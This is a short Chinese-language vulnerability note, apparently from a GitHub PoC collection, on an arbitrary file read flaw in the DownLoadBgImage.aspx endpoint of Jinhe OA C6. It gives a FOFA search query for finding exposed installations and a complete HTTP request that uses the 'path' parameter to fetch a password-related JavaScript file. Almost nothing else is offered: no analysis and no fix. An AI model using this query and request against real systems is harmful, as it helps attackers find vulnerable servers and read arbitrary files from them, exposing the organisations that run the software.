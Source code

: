 ## 金和OA-C6接口DownLoadBgImage存在任意文件读取漏洞

金和OA `/C6/JHSoft.Web.AddMenu/LoginTemplate/DownLoadBgImage.aspx` 参数path可读取任意文件。

## fofa

```
body="JHSoft.Web.AddMenu" || app="金和网络-金和OA"
```

## poc

```
GET /C6/JHSoft.Web.AddMenu/LoginTemplate/DownLoadBgImage.aspx/?path=/C6/js/PasswordNew.js HTTP/1.1
Host: 
accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: myie=false; sl-session=dFmseghQeWZR/amIUs1SMQ==; myie=false
Connection: close
```

![image-20240628211018935](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406282110983.png)